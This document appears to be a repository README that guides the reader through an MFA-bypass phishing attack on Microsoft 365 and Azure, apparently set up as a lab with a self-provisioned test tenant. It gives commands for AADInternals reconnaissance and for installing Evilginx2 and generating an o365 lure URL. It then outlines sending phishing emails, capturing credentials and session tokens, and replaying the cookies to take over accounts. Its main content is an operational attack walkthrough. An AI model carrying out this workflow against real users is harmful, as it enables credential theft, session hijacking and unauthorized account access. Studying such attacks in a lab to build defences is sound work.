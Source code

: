 # Complete Setup Guide

## Prerequisites Checklist
- [ ] Azure subscription (free trial works)
- [ ] Domain name registered
- [ ] Linux VPS (2GB RAM minimum)
- [ ] PowerShell 7+
- [ ] Basic networking knowledge

## Step-by-Step Instructions

### Phase 1: Environment Setup

1. **Domain & Infrastructure**
   ```bash
   # Register domain via Namecheap
   # Configure DNS records
   # Deploy DigitalOcean VPS (Ubuntu 22.04 recommended)
   ```

2. **Azure Tenant Configuration**
   ```powershell
   # Install Azure PowerShell module
   Install-Module -Name Az -AllowClobber -Scope CurrentUser -Force
   
   # Run user provisioning script
   .\scripts\azure-setup\Create_Microsoft_Entra_ID_Users.ps1
   ```

3. **AADInternals Reconnaissance**
   ```powershell
   # Install AADInternals
   Install-Module AADInternals
   
   # Run reconnaissance commands
   .\scripts\reconnaissance\AADInternals_Commands.ps1
   ```

### Phase 2: Attack Infrastructure

1. **Evilginx2 Setup**
   ```bash
   # SSH into VPS
   ssh root@your-vps-ip
   
   # Install Evilginx2
   git clone https://github.com/kgretzky/evilginx2.git
   cd evilginx2
   make
   
   # Configure phishlet (see evilginx/setup-instructions.md)
   ```

2. **Generate Lure URL**
   ```bash
   # Start Evilginx2
   ./evilginx2
   
   # Generate phishing link
   lures create o365
   lures get-url <lure_id>
   ```

### Phase 3: Phishing Campaign

1. **Craft Phishing Email** (see `phishing-templates/email-templates/`)
2. **Send to Target User**
3. **Monitor Evilginx2 Dashboard**
4. **Capture Credentials & Tokens**

### Phase 4: Session Hijacking

1. **Export Captured Tokens**
2. **Import to Cookie-Editor Browser Extension**
3. **Access Target Account (MFA Bypassed)**

## 📊 Attack Flow Diagram

```
[Reconnaissance] → [Infrastructure Setup] → [Phishing Email] → [User Clicks Link]
                                                                      ↓
[Session Hijacking] ← [Token Captured] ← [User Authenticates with MFA]
        ↓
[Unauthorized Access to Azure Portal]
```

